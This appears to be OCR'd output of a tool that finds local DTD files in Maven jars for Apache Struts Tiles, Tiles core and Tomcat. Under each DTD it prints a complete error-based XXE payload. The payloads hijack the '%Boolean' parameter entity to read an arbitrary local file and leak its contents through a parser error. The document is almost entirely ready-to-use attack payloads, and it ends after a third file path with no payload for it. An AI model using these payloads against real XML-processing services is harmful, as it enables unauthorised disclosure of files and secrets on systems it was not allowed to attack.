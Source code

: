  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/struts/struts-tiles/1.3.8/struts-tiles-1.3.8.jar!/org/apache/struts/resources/tiles-config_1_1.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/struts/struts-tiles/1.3.8/struts-tiles-1.3.8.jar!/org/apache/struts/resources/tiles-config_1_1.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tiles/tiles-core/3.0.5/tiles-core-3.0.5.jar!/org/apache/tiles/resources/tiles-config_3_0.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tiles/tiles-core/3.0.5/tiles-core-3.0.5.jar!/org/apache/tiles/resources/tiles-config_3_0.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/coyote/6.0.29/coyote-6.0.29.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`
